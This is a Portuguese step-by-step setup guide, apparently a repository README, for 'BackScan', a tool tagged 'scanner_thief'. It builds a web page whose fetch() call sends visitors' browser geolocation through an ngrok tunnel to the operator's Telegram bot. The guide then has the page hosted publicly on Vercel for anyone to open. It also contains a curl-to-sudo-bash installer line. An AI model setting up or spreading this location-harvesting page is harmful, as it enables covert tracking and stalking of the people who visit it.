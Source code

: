 # Tutorial Completo: Configurando e Rodando o BackScan no Ubuntu do Zero

Este tutorial irá guiar um iniciante absoluto para configurar um ambiente de desenvolvimento no Ubuntu e rodar o projeto **BackScan**.

---

## 1. Atualizar o Sistema Operacional
Antes de começar, é recomendado atualizar os pacotes do Ubuntu.

```bash
sudo apt update && sudo apt upgrade -y
```

---

## 2. Instalar o Node.js e o npm
O projeto requer o **Node.js 16+**.

### 2.1 Verificar se o Node.js já está instalado
```bash
node -v
```
Se aparecer um número de versão (ex: `v16.13.0`), pule para a próxima etapa.

### 2.2 Instalar o Node.js

```bash
curl -fsSL https://deb.nodesource.com/setup_16.x | sudo -E bash -
sudo apt install -y nodejs
```

### 2.3 Verificar a instalação
```bash
node -v  # Deve exibir a versão do Node.js
npm -v   # Deve exibir a versão do npm
```

---

## 3. Instalar o Git
O Git é necessário para clonar o projeto.

```bash
sudo apt install -y git
```
Verifique a instalação:
```bash
git --version
```

---

## 4. Clonar o Repositório BackScan

```bash
git clone https://github.com/PedroHBessa/backscan.git
cd backscan
```

---

## 5. Instalar as Dependências do Projeto

```bash
npm install
```

---

## 6. Configurar as Variáveis do Projeto
Edite o arquivo `server.js`:

```bash
nano server.js
```

Substitua **BOT-TOKEN** pelo token do seu bot do Telegram.

Substitua **CHAT-TOKEN** pelo ID do chat ou grupo onde deseja receber as mensagens.

Pressione **CTRL + X**, depois **Y** e **Enter** para salvar.

---

## 7. Criar e Configurar um Bot no Telegram

1. No Telegram, procure por **@BotFather**.
2. Envie o comando:
   ```
   /newbot
   ```
3. Siga as instruções e anote o **token** fornecido.
4. Para obter o **ID do chat/grupo**:
   - Adicione o bot ao grupo.
   - Envie uma mensagem no grupo.
   - Acesse:
     ```
     https://api.telegram.org/botSEU_BOT_TOKEN/getUpdates
     ```
   - Anote o `chat_id`.

---

## 8. Iniciar o Servidor

```bash
node server.js
```

Se tudo estiver correto, a saída deve indicar que o servidor está rodando.

---

## 9. Instalar e Configurar o Ngrok
O **Ngrok** é usado para expor o servidor local para a internet.

### 9.1 Baixar e Instalar o Ngrok
```bash
wget https://bin.equinox.io/c/bNyj1mQVY4c/ngrok-stable-linux-amd64.zip
unzip ngrok-stable-linux-amd64.zip
chmod +x ngrok
sudo mv ngrok /usr/local/bin/
```

### 9.2 Criar Conta no Ngrok
Acesse [https://ngrok.com/](https://ngrok.com/) e crie uma conta.

Após criar a conta, pegue seu **Authtoken** e rode:
```bash
ngrok authtoken SEU_AUTHTOKEN
```

---

## 10. Expor o Servidor com o Ngrok

```bash
ngrok http 8088
```

Copie a **URL gerada pelo Ngrok** (exemplo: `https://abc123.ngrok.io`).

---

## 11. Atualizar a URL no Projeto
Abra o arquivo `index.html`:
```bash
nano index.html
```
Substitua `https://abc123.ngrok.io` pela URL gerada pelo Ngrok:
```js
fetch("https://abc123.ngrok.io/send-location", {
```
Salve as alterações (**CTRL + X**, **Y**, **Enter**).

---

## 12. Testar o Projeto
Abra o **index.html** no navegador e permita o acesso à localização. Se tudo estiver correto, a localização será enviada para o bot no Telegram.

---

## 13. Hospedar a Página HTML na Vercel

Para deixar a interface do **BackScan** online, vamos hospedar o `index.html` na Vercel.

### 13.1 Criar uma Conta na Vercel
1. Acesse [https://vercel.com/](https://vercel.com/) e crie uma conta (pode usar o login do GitHub).
2. Após logar, clique em **"New Project"**.

### 13.2 Subir o Projeto para o GitHub
Caso ainda não tenha subido o código:
```bash
git init
git add index.html
git commit -m "Adiciona interface do BackScan"
git branch -M main
git remote add origin https://github.com/seu-usuario/backscan-frontend.git
git push -u origin main
```

### 13.3 Implantar na Vercel
1. Na Vercel, clique em **"Import Git Repository"** e selecione o repositório do seu projeto.
2. Escolha as configurações padrão e clique em **Deploy**.
3. Após a implantação, copie a URL gerada (ex: `https://backscan.vercel.app`).

Agora qualquer pessoa pode acessar sua página! 🚀

---

## Conclusão
Agora você tem o projeto BackScan rodando do zero no Ubuntu, mesmo sem experiência em programação. 🚀

# scanner_thief
# backscan
